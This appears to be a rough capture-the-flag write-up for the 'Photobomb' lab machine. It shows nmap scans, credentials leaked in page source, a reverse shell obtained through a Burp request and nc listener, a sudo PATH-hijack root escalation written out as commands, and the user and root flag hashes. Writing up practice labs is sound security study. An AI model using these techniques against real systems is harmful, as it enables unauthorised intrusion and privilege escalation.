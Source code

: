 # Initial nmap scan

> sudo nmap -sV -sC 10.10.11.182

Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-05 21:54 EDT
Nmap scan report for 10.10.11.182
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.38 seconds

#### View page source for any relevant information

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
##### Try this

```
Sinatra doesn’t know this ditty.
Try this: 
```

```
get '/--%20nmap%20-sU%20--script%20backorifice-brute%20%3Chost%3E%20--script-args%20backorifice-brute.ports=%3Cports%3E/%20-%20IllegalArgumentException%20Invalid%20uri%20'http:/photobomb.htb:80/--%20nmap%20-sU%20--script%20backorifice-brute%20%3Chost%3E%20--script-args%20backorifice-brute.ports=%3Cports%3E/'' do
  "Hello World"
end
```

### Google Fu finds a Nmap script for this

"https://nmap.org/nsedoc/scripts/backorifice-brute.html"

"We find the port open for that service by just scanning for that port"

```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-06 17:17 EST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.15s latency).

PORT      STATE         SERVICE
31337/udp open|filtered BackOrifice

Nmap done: 1 IP address (1 host up) scanned in 1.83 seconds
```

> nmap -sU --script backorifice-brute http://photobomb.htb --script-args backorifice-brute.ports=31337

```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-06 17:22 EST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 1093.09 seconds
```

#### Lookup dhcpc vulnerabilties

"https://www.rapid7.com/db/modules/exploit/unix/dhcp/rhel_dhcp_client_command_injection/"

"NOTHING!"

"photobomb.htb/image/"

"http://photobomb.htb:4567/__sinatra__/404.png"


http://photobomb.htb/printer/ login sends username and passwords credentials in base64 format upon request


```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-11-06 18:08 EST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.090s latency).                                                 
Not shown: 997 closed ports
PORT      STATE         SERVICE
68/udp    open|filtered dhcpc
20366/udp open|filtered unknown
41524/udp open|filtered unknown

```

Get a request from intercepting a large photo download on burpsuite
Ran dl_postreq.txt in a Burpsuite repeater with a NC listener for a reverse shell
Got user text

Then
sudo -l

echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh

And you got root!



user
cf7de1b97a97dc9f806c18854b5cb6e3

root
bca2c077dd8715dc584bec8e745b18f3